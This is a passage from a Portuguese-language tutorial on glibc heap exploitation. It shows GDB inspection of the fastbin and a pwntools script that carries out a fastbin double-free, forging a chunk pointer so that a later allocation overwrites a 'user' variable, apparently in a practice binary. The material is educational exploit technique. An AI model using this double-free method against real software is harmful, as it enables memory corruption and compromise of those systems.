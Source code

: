 Vamos executar nosso script atrelado ao GDB e inspecionar a *heap* e o *fastbin*.

![Heap e fastbins](/img/papers/heap_p1/paper_heap1_119.png)

Podemos ver que o *chunk* B agora está no topo da pilha da *fastbin*, seguido pelo *chunk* A cujo "fd" aponta para a estrutura "user" agora. A partir de agora, se solicitarmos mais um *chunk* de `0x30` bytes, vamos realocar o *chunk* B, e se solicitarmos mais um, vamos realocar o *chunk* A novamente e então, na terceira solicitação, vamos sobrescrever a *target*, pois o *chunk* A aponta para ela.

Adicionando estas requisições ao script, o bloco de exploração fica desta forma:

```py
#===============EXPLOITING================#

# enviando o username
username = b"Beco"
io.sendafter(b"username: ", username)
io.recvuntil(b"> ")

# requisitando 2 chunks de 0x30 bytes
chunk_A = malloc(0x28, b"A"*0x28)
chunk_B = malloc(0x28, b"B"*0x28)

# liberando os chunks
free(chunk_A)
free(chunk_B)
free(chunk_A)

# criando um chunk fake que aponta para "user"
dup = malloc(0x28, p64(elf.sym.user))

# requisitando o chunk B
malloc(0x28, b"A")

# requisitando o chunk A com "fd" para "user"
malloc(0x28, b"A")

# sobrescrevendo "user"
malloc(0x28, b"BecoXPL")

#=========================================#
```
Agora, podemos executar o script pelo GDB normalmente.
